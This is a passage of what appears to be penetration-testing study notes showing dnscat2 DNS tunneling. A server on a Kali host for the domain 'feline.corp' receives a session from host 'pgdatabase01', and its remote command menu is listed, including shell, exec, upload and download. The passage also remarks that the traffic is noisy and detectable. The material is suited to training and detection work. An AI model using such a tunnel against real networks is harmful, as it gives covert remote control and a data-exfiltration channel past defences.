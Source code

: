On the server-side we can see that a new window is created.

```bash
kali@felineauthority:~$ dnscat2-server feline.corp
...
New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Polite Fifty Sophic Otto Tried Wages
```
{% endtab %}

{% tab title="3. Server Interaction" %}
Captured traffic shows a high volume of DNS queries and responses using CNAME, TXT, and MX record types, revealing the tunneling activity. Although encrypted, the sheer number of queries makes this technique noisy and detectable with proper monitoring tools. Once the tunnel is active, interaction with the remote client is handled through dnscat2’s command sessions.

```bash
kali@felineauthority:~$ dnscat2-server feline.corp
...
# list all active windows
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
# access the specified session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Polite Fifty Sophic Otto Tried Wages
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.
# list available commands
command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows#
```
